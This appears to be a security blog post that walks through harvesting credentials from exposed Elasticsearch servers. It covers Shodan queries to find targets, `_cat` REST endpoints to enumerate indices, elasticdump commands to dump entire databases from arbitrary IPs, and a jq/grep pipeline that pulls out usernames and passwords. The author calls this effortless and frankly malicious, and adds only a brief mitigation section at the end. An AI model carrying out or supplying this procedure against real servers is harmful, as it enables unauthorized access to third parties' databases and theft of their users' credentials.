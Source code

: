 ```yaml
---
title: "Credential Hunting with Shodan via Elastidump"
date: 2021-10-18T16:16:30-04:00
categories:
  - Recon
tags:
  - Credential Hunting
  - Active/Passive Recon
  - Elastic Search
  - Elastidump
  - Shodan
---
```


## Credential Hunting with Shodan via Elastidump
Hello everyone, today we will be talking about how to get credentials without any effort. As everyone knows shodan is a huge scanner for internet assets. 

> The official definition of Shodan: `Shodan is a search engine for Internet-connected device.`

People use shodan to do some research or asset discovery. If you wonder, pentesters use it too. So, I want to explain how do I use this tool. (how to discover elastic targets on the Internet and how to exploit them)

### Shodan Queries

To get the most out of Shodan it's important to understand the search query syntax basically. Because at the end of the day, we will not need any target we need specifically wanted to.

Here are some basic queries for shodan:

> net: xxx.xxx.xxx.xxx/24

This particular query gives us subnet scan results. 

> port: xx 

This particular query gives us specific port scan results.

> country: XX (US or etc.)

This particular query gives us specific scan results for specific country.

> Product: XXX (elastic, MySQL etc.)

This particular query gives us exactly what product you search for.

All these keywords are enough for basic search and exploitation. Although in some situations, we need more targeted info. So, we can chain all keywords to search exactly what we need.

For example:

* `port: <elastic_port_number> country: <specific_country_code`
* `product: <elastic, MySQL> country: <specific_country_code>`

You can check more information on official shodan documents for searching ---> [Shodan  Search Query Fundamentals](https://help.shodan.io/the-basics/search-query-fundamentals)

### Some Elastic Queries on Web Browser (A.K.A REST APIs)

After a bit of searching on shodan, we can access some elasticsearch database pages.

On these pages, we saw some information about elasticsearch database. Yet this is not enough :) We need to enumerate the target elasticsearch database remotely with the browser via adding new directories.

We need to know following endpoints and their meanings:

* `/_cat`: This particular directory shows us usable paths. These paths are important for future enumeration steps.

* `/_cat/indices`: This particular directory shows us indices which are inside the elasticsearch databases. These indices include sensitive information, logs or etc.

* `/_cat/indices/<indice_name>`: This particular directory shows us target indices information. (What is the size of this directory or etc.)

* `/_cat/count`: This particular directory shows us count of data lines. For instance, if you use a Linux system you can calculate the line count with `wc -l` command, this one is exactly the same result.

* `/_cat/health`: This particular directory shows us health of the elasticsearch database.

You can search for more paths and meanings [here](https://www.elastic.co/guide/en/elasticsearch/reference/current/rest-apis.html).

##### PoC for Shodan.io and Web Queries:

> Product Keyword Usage:
![shodanquery](/assets/images/r-ss/shodan-general-search.png)

> Port 9200 - Landing: 
![landing](/assets/images/r-ss/shodan-web.png)

> Reading All Components:
![catall](/assets/images/r-ss/cat-all.png)

> Reading Indices:
![catindices](/assets/images/r-ss/cat-indices.png)

> Reading Spesific Indices:
> ![catindicesname](/assets/images/r-ss/cat-indices-with-name.png)
>
> ![catindicesname2](/assets/images/r-ss/cat-indices-with-name-2.png)

> Reading Health of Elastic:
![cathealth](/assets/images/r-ss/cat-health.png)

> Reading Data Line Count:
![catcount](/assets/images/r-ss/cat-count.png)

After a successful PoC, we need to reach inside the data. So, good news! we have a new part :)

### Dumping Data with Elasticdump

Elasticdump is a very simple and useful tool for dumping data. Normally, this tool is used to make developers' work easier, but in this case we can use it for malicious activity.

The tool is pretty simple. You can follow the below instructions for installation:

1. Do you have npm? (If the answer is no then follow)

```bash 
$ sudo apt install npm
```

2. Do you have elasticdump? (If the answer is no then follow)

```bash 
$ npm install elasticdump -g
```

3. Do you have jq? (If the answer is no then follow)

```bash 
$ sudo apt install jq
```

After installation, we need to dump target indices, then we can use either of following commands:

```bash 
$ elasticdump --input <http(s)://xx.xx.xx.xx:9200/> --output /home/x00/Desktop/test.json
```
or 
```bash 
$ elasticdump --input <http(s)://xx.xx.xx.xx:9200/indices_name> --output /home/x00/Desktop/test-2.json
```

> Is it done? Did I get all data from elasticsearch?
`Yes for sure :p but we need to eliminate (switching on to meaningful information) data inside the JSON file. `
> Why do I need to eliminate data? 
`Because the raw data is very complicated to use on any target. We need to use some little Linux commands to understand all data.`

##### PoC for elasticdump:

> General Usage of Elasticdump:
![elasticdump](/assets/images/r-ss/elasticdump-1.png)

> Results:
![elasticdumpresults](/assets/images/r-ss/elasticdump-results.png)
![elasticdumpresults](/assets/images/r-ss/elasticdump-results-2.png)

### Eliminating Raw Data to Meaningful Things

Actually, this part is pretty simple. You can `cat` the files of your need with `cut`, `grep`, and `awk` commands.

For example:

```bash
$ cat test.json | jq | grep -e "username" -e "password"
```

##### PoC for Data Elimination:

> Basic Grep with jq:
![grep](/assets/images/r-ss/grep.png)

> Extract `password2` Values:
![grep](/assets/images/r-ss/grep-2.png)

> Extract More:
![grep](/assets/images/r-ss/grep-results.png)

### Mitigation
The administrators can apply following suggestions:

* Do not use default ports like 9200 or etc.
* Put elasticsearch behind a firewall.
* Lock down HTTP API with authentication.

### Conclusion

As you can see how simple and effective it is. Any attacker can reach your database without any knowledge or effort. So this a huge risk for your company or project.

We need to minimise risk and secure the systems for a pure internet. Actually this is really simple. We need to focus hardening and beating practice guidelines. Also, we have to perform penetration tests periodically ;)

### References
* [Shodan.io](https://shodan.io/)
* [Shodan Query Basics](https://help.shodan.io/the-basics/search-query-fundamentals)
* [Elasticsearch REST APIs](https://www.elastic.co/guide/en/elasticsearch/reference/current/rest-apis.html)
* [Securing Elasticsearch](https://sematext.com/blog/elasticsearch-security-authentication-encryption-backup/)
* [Guide for Elasticdump](https://blog.logrocket.com/a-practical-guide-to-working-with-elasticdump/)
